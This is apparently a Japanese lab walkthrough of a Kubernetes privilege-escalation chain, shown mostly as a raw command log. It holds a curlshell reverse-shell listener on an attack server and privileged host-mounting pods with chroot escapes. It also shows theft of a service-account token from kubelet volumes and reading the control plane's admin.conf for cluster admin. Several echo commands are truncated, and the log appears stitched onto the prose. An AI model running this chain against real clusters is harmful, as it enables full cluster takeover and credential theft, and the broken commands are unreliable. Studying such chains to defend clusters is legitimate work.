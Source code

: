 コンテナからワーカーノードに侵入することはできました。
しかしワーカーノードには Kubernetes の Admin 権限を取得する方法がありません。

Admin を得るため、どうにかしてコントロールプレーンのノードに侵入する必要があります。

![k8s-diagram-04](./images/k8s-diagram-04.png)

## ワーカーノード内の情報収集

ワーカーノードに侵入できたので、ノードに存在するコンテナの情報を取得できるようになりました。

```bash
[worker-node]: cd /tmp/

[worker-node]: crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                     ATTEMPT             POD ID              POD
ac0cbeb7e17a2       35a88802559dd       7 minutes ago       Running             ubuntu-container         0                   a021011afd94a       attack-pod-1
186aa6e43bacf       308d834383594       37 hours ago        Running             unguard-user-simulator   0                   26cc1931d4968       unguard-user-simulator-28717860-sb9gt
4b85a71f357e9       ecd074983f414       2 days ago          Running             tetragon                 1                   0bc3a75e97cb4       tetragon-7pgpm
9280e4f6f7f8f       aebfd554d3483       2 days ago          Running             cilium-agent             0                   263d17014d39e       cilium-ncsp5
c66ea67e0dfae       acc4836f7b346       2 days ago          Running             export-stdout            0                   0bc3a75e97cb4       tetragon-7pgpm
ea8ebbf152619       b5adf140fb488       2 days ago          Running             cilium-operator          0                   d3c548eb7aee7       cilium-operator-9bfb5ffbd-klbnf
```


[attack-server]: ./curlshell.py --listen-port 1234
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash
[attack-pod-1]: cat /etc/hostname
[attack-pod-1]: ls /
[attack-pod-1]: ls /host-system
[attack-pod-1]: chroot /host-system bash
[worker-node]: cat /etc/hostname
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash
[attack-pod-2]: cat /etc/hostname
[attack-pod-2]: ls /
[attack-pod-2]: chroot /host-system bash
[control-plane]: cat /etc/hostname
[control-plane]: ls /etc/kubernetes/
[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf